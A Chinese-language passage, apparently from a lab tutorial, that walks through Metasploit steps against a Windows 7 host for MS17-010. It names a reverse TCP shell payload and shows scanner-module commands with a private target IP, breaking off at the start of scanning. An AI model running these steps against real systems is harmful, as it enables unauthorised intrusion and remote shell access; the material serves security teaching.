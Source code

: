 使用shell：payload/windows/x64/shell/reverse_tcp

::: warning

在开始攻击前互ping主机，确保网络联通，windows 7主机在被攻击前请关闭防火墙，否则无法完成攻击。

:::

### 2.攻击过程

**（1）搜索对应的扫描模块**

```shell
msf5 > search ms17-010
```
::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320206.webp)
:::

**（2）使用扫描模块**

```shell
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320204.webp)
:::

**（3）查看需要配置的选项**

```shell
msf5 auxiliary(scanner/smb/smb_ms17_010) > show options
```
::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320236.webp)
::: 

**（4）配置PHOSTS的IP**

```shell
msf5 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.2.173
```
::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320231.png)
:::

**（5）检查所有选项是否配置完成**

```shell
msf5 auxiliary(scanner/smb/smb_ms17_010) > show options
```
::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320935.webp)
:::

**（6）开始扫描**
